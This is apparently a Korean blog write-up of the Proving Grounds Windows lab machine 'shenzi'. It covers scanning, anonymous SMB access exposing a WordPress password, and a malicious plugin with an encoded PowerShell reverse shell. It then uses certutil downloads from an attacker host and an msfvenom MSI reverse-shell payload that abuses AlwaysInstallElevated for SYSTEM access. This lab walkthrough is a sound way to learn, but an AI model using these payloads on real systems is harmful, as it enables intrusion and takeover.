







---
layout: post
title:  "[PG][Windows] shenzi"
date:   2026-11-08 12:22:00 +09:00
featured: /assets/images/oscp-pg/windows/shenzi/image.png
categories: PG Windows
---## 정보수집
Nmap을 통해 포트 스캔을 수행함.
```
└─$ ports=$(nmap -p- --min-rate=1000 -T4 -Pn 192.168.208.55 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
└─$ nmap -p$ports -sC -sV -Pn 192.168.208.55
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-02 07:47 EDT
Nmap scan report for 192.168.208.55
Host is up (0.16s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.208.55/dashboard/
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was https://192.168.208.55/dashboard/
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql         MariaDB 10.3.24 or later (unauthorized)
5040/tcp  open  unknown
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-10-02T11:50:35
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 182.02 seconds
```

SMB 공유 디렉토리에 익명 접근이 가능한 것을 확인.
```
└─$ smbclient -L \\192.168.208.55   
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       Remote IPC
        Shenzi          Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.208.55 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

smbclient로 Shenzi 디렉토리에 접근하여 모든 리스트 다운로드.
```
└─$ smbclient //192.168.208.55/Shenzi
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu May 28 11:45:09 2020
  ..                                  D        0  Thu May 28 11:45:09 2020
  passwords.txt                       A      894  Thu May 28 11:45:09 2020
  readme_en.txt                       A     7367  Thu May 28 11:45:09 2020
  sess_klk75u2q4rpgfjs3785h6hpipp      A     3879  Thu May 28 11:45:09 2020
  why.tmp                             A      213  Thu May 28 11:45:09 2020
  xampp-control.ini                   A      178  Thu May 28 11:45:09 2020

                12941823 blocks of size 4096. 6503456 blocks available
smb: \> mget *
```

다운로드한 passwords.txt에서 계정 정보를 확인함.
```
└─$ cat passwords.txt    
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     

5) WordPress:

   User: admin
   Password: FeltHeadwallWight357
```

80포트에서는 퍼징을 해봤지만 별다른 경로가 확인되지 않았으며, Shenzi 경로로 접근하자 WordPress 사이트가 발견됨.


퍼징을 통해 wp-login.php 발견했으며, passwords.txt에서 확인된 계정으로 로그인 성공함.
```
└─$ ffuf -u "http://192.168.208.55/Shenzi/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -fc 404,403,401 -fw 63 -e .txt,.php,.bak,.sql,.pdf,.png.jpg,.jpeg,.html,.conf,.git

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.208.55/Shenzi/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt
 :: Extensions       : .txt .php .bak .sql .pdf .png.jpg .jpeg .html .conf .git 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404,403,401
 :: Filter           : Response words: 63
________________________________________________
.
.
.
wp-login.php            [Status: 200, Size: 4945, Words: 212, Lines: 86, Duration: 2349ms]
```


## 초기침투

업로드할 플러그인 php파일에 리버스쉘 코드 삽입 후 압축.
```
└─$ cat plugin.php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: a
* Author URI: <http://www.a.com>
*/

exec("powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADIAMwA5ACIALAA5ADkAOAA4ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==");
?>
```
```
└─$ zip -r plugin.zip plugin.php
  adding: plugin.php (deflated 52%)
```
Add Plugins에서 파일을 업로드 및 설치한 뒤 활성화 클릭.



공격자 PC에서 실행한 netcat에 리버스쉘(Shenzi)이 확인됨.


## 권한상승

공격자 PC로부터 winPEASany를 다운로드 받은 뒤 실행.
```
PS C:\Users\shenzi\Desktop> certutil.exe -urlcache -split -f http://ATTACKER_IP/winPEASany.exe winPEASany.exe                                                                                               
****  Online  ****                                                                                      
  000000  ...                                                                                           
  9afa00                                                                                                
CertUtil: -URLCache command completed successfully.                                                                                                                 
PS C:\Users\shenzi\Desktop> .\winPEASany.exe
```

이 두 레지스터가 활성화된 경우 (값이 인 경우 0x1), 모든 권한의 사용자는 NT AUTHORITY\ SYSTEM 으로 파일을 설치 (실행) 할 수 있음.
※ 이는 MSI 설치 프로그램이 권한이 낮은 사용자에 의해 실행되더라도 SYSTEM 권한으로 실행된다는 것을 의미. 따라서 권한을 상승시킬 수 있는 MSI 페이로드를 생성할 수 있음.

```
PS C:\Users\shenzi\Desktop> PS C:\Users\shenzi\Desktop> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

PS C:\Users\shenzi\Desktop> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

msfvenom를 이용해 악성 페이로드 msi 파일을 생성.
```
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -a x64 --platform Windows -f msi -o poop.msi
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: poop.msi
```

공격자 PC로 부터 악성 페이로드를 다운로드 받은 뒤 실행.
```
PS C:\Users\shenzi\Desktop> certutil.exe -urlcache -split -f http://ATTACKER_IP/poop.msi poop.msi
****  Online  ****
  000000  ...
  027000
CertUtil: -URLCache command completed successfully.
PS C:\Users\shenzi\Desktop> .\poop.msi
```

공격자 PC에서 실행한 netcat에 리버스쉘(Administrator)이 확인됨.

